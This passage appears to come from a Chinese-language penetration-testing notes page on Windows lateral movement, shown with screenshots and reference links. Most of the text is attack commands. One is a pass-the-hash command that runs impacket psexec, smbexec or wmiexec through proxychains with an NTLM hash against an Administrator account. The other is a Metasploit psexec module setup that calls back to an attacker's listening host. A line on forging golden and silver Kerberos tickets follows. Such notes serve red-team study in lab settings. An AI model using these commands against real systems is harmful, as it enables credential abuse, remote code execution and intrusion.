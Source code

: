 ![image-20230331172307275](../../../images/image-20230331172307275-1686283281462.png)

```shell
proxychains  xxx.py -hashes :91ff0fb948167eb4d080b5330686c02f  Administrator@192.168.52.138

psexec.py
smbexec.py
wmiexec.py
```

![image-20230331172323473](../../../images/image-20230331172323473-1686283281462.png)

![image-20230331172427568](../../../images/image-20230331172427568-1686283281462.png)

![image-20230331172508321](../../../images/image-20230331172508321-1686283281462.png)

- MSF

  ```shll
  use exploit/windows/smb/psexec
  set rhosts 192.168.52.138
  set smbuser administrator
  set smbpass LM:NTLM
  set lhost 192.168.52.143
  run
  ```

#### PTT票据传递

> 只要知道了KDC和Server密钥，即可伪造黄金票据和白银票据





## 参考文章

https://blog.csdn.net/qq_44159028/article/details/124631522

https://blog.51cto.com/u_15127677/4045185

https://soapffz.com/archives/558/

[后渗透之meterpreter使用攻略 - 先知社区](https://xz.aliyun.com/t/2536)

